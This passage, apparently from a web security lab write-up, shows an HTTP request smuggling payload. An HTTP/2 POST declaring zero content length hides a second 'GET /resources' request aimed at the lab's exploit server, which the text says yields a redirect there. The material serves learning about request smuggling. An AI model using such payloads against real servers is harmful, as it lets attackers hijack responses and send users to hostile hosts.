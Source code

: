 ![img](media/d71fece1966944cb2947ce833c54459d.png)

Using this payload, we can get a redirect to "/resources" in the exploit server:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/2
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


GET /resources HTTP/1.1
Host: exploit-0a4f00f203b90e88815a42a701ee00bd.exploit-server.net
Content-Length: 10

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
